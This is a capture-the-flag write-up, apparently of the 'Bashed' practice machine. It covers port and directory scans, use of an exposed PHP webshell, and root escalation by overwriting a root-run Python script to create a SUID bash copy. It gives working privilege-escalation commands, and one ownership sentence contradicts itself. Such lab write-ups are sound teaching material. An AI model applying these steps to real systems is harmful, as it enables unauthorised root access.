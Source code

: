 # Recon

All-tcp scan:
```bash
nmap -p- -oA scans/nmap-alltcp 10.10.10.68
PORT   STATE SERVICE
80/tcp open  http
```

Detailed scan:
```bash
nmap -p 80 -sVC -oA scans/nmap-tcpdetail 10.10.10.68
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Endpoint scan:
```bash
301      GET        9l       28w      309c http://bashed.htb/images
200      GET      154l      394w     7477c http://bashed.htb/single.html
301      GET        9l       28w      310c http://bashed.htb/uploads => http://bashed.htb/uploads/
301      GET        9l       28w      306c http://bashed.htb/dev => http://bashed.htb/dev/
200      GET        1l      255w     4559c http://bashed.htb/dev/phpbash.min.php
200      GET      216l      489w     8151c http://bashed.htb/dev/phpbash.php
301      GET        9l       28w      306c http://bashed.htb/php => http://bashed.htb/php/
200      GET        0l        0w        0c http://bashed.htb/php/sendMail.php
200      GET        8l       35w     2447c http://bashed.htb/images/logo.png
200      GET      161l      397w     7743c http://bashed.htb/index.html
200      GET      161l      397w     7743c http://bashed.htb/
```

At this point, subdomain scan wasn't needed to get user access. 

# Shell as www-data

We simply navigate do [http://bashed.htb/dev/phpbash.php](http://bashed.htb/dev/phpbash.php),
which was discovered by our endpoint (directory) scan, and we have a fully functional webshell.

Sadly, no matter what we try, we won't be able to obtain reverse shell, as all outgoing
requests seem to be blocked, and we are also unable to plant a bind shell.
Instead, we will have to perform privilege escalation from the webshell we have.

User flag:
```
2bc**************************17f
```

# Shell as root
First, we run sudo -l, and it seems we can run all commands as scriptmanager.

To find out what can be done with this privilege, we run find:

```bash
find / -user scriptmanager 2>/dev/null
/scripts
```

Inside this directory, there are two files:

```
test.py
test.txt
```

Inside test.py there is a simple program that writes to test.txt file.
Interesting thing is, that test.py is scriptmanager owned,
while test.py is root owned. That would mean, that test.py isn't run by
scriptmanager, but as root. Since we have write access to the test.py file,
we can modify it's content, so that when it's run by root, it will execute
our commands.

We make a simple script in /tmp:
```bash
echo "import os;os.system('cp /bin/bash /tmp/jjs');os.system('chmod 7777 /tmp/jjs')" > test.py
```
Then, we copy it to /scripts:
```bash
sudo -u scriptmanager cp /tmp/test.py /scripts/test.py
```

After a while, we get root suid shell in /tmp. We can use it as follows:

```bash
/tmp/jjs -p -c id
```

Root flag:
```
e0b**************************ae5
```
